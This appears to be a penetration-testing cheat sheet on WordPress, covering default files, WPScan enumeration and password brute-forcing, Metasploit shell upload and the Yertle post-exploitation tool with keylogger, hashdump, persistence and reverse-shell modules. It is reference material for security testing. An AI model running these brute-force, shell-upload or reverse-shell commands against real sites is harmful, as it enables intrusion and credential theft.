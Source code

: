 # Web applications - CMS WordPress

### Overview

WordPress is a free and open-source content management system (CMS) developed by
the WordPress.org foundation and based on PHP and MySQL.

WordPress is, by far, the most popular website management system in use with a
CMS market share of nearly sixty percent and used by more than 60 million
websites, including 30.6% of the top 10 million websites as of April 2018.

WordPress' plugin architecture allows users to extend the features and
functionality of a website or blog. As of March 2017, WordPress has over
55,286 plugins available.

### WordPress default URL

The following files and directories can be found on a default installation of
WordPress:

```
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-app.php
wp-atom.php
wp-blog-header.php
wp-comments-post.php
wp-commentsrss2.php
wp-config-sample.php
wp-content
wp-cron.php
wp-feed.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-pass.php
wp-rdf.php
wp-register.php
wp-rss2.php
wp-rss.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
...
```

Refer to the SecLists' `Discovery/Web-Content/CMS/wordpress.fuzz.txt` wordlist
for a more exhaustive list of URL.

### WPScan

WPScan is a well-known vulnerability scanner written in Ruby for WordPress
which focus on vulnerabilities in WordPress core, themes, and plugins.

The WPScan vulnerability database is public and count, as of December 2018,
11665 vulnerabilities. The database is hosted on the following host:

```
https://wpvulndb.com/
```

Usage:

```
# Update the WordPress Core, themes and plugins vulnerability database
wpscan --update

wpscan --url <URL>

# Enumerate installed plugins | themes | users | timthumbs
wpscan --url <URL> --enumerate < p | t | u | tt >

# Wordlist password brute force on enumerated users using 50 threads
wpscan --url <URL> --wordlist <WORDLIST_PASSWORDS> --threads 50

# Wordlist usernames and password brute force using 50 threads
wpscan <URL> (--username <USERNAME> | --usernames <WORDLIST_USERNAMES>) --wordlist <WORDLIST_PASSWORDS> --threads 50
```

### Administrator to RCE

The tools presented below require valid WordPress administrator credentials.

###### Metasploit

The `Metasploit` module `exploit/unix/webapp/wp_admin_shell_upload` can be used
to generate a plugin packed with a `Metasploit` payload and upload it to the
WordPress server.

```
msf> use exploit/unix/webapp/wp_admin_shell_upload
```

###### WPForce Yertle

Part of the `WPForce` suite of Wordpress attack tools, `Yertle` is a WordPress
post-exploitation python script.

The following modules are implemented:

```
beef            Injects a BeEF hook into website
dbcreds         Prints the database credentials
exit            Terminate the session
hashdump        Dumps all WordPress password hashes
help            Help menu
keylogger       Patches WordPress core to log plaintext credentials
keylog          Displays keylog file
meterpreter     Executes a PHP meterpreter stager (php/meterpreter/reverse_tcp) to connect to metasploit
persist         Creates an admin account that will re-add itself
quit            Terminate the session
shell           Sends a TCP reverse shell to a netcat listener
stealth         Hides Yertle from the plugins page
```

Usage:

```
# Bind OS shell including the modules above
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -i
os-shell> help | hashdump | persist | whoami | ...

# Reverse OS shell - works with a netcat listener
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -r -li <LHOST> -lp <LPORT>
```
